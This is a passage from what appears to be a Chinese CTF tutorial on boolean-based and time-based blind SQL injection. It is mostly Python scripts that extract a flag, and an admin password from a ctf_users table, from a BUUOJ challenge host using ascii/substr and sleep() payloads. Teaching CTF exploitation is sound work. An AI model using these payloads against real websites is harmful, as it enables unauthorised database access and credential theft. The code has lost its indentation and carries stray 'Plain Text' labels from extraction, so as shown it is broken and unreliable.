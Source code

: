 ```plain
# 错误示例
# payload = "''or(ascii(substr((select(GROUP_CONCAT(fl4gawsl))from(Flaaaaag)),%d,1))>%d)" % (i, tmp)
r = requests.get(url+payload)
if 'Click' in r.text:
begin = tmp + 1
tmp = (begin + end) // 2
else:
end = tmp
tmp = (begin + end) // 2
flag += chr(tmp)
print(flag)
if begin == 32:
break
Plain Text
```



因为bool盲注的位置是不确定的，有可能是在url中以get形式，或者POST出的数据等等所以模板形式也不唯一，不过只要掌握requests包（类似学pwn的都会用到的pwn），理解发送http的流程，就是在模板上进行修改的操作了。

## 时间盲注

原理和bool盲注一模一样


区别点在于bool判断值变成了时间


也就是说如果bool为true,返回的时间为0.1s


如果为false，返回的时间为1s


这不就是个对错了嘛


所以直接就给出脚本了


```plain
import requests
url="http://fe5d8a13-c089-4e47-847d-b43c1622a20d.node3.buuoj.cn/index.php?action=publish"
cookie = {"PHPSESSID":"silql33d2jbdqnqp0l6san8rr4"}
k="0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
flag=""
for i in range(50):
for j in k:
j = ord(j)
data={
'mood':'0',
'signature':'1`,if(ascii(substr((select password from ctf_users where username=`admin`),{},1))={},sleep(3),0))#'.format(i,j)
}
try:
r=requests.post(url,data=data,cookies=cookie,timeout=(2,2))
except:
flag+=chr(j)
print(flag)
break
Plain Text
```

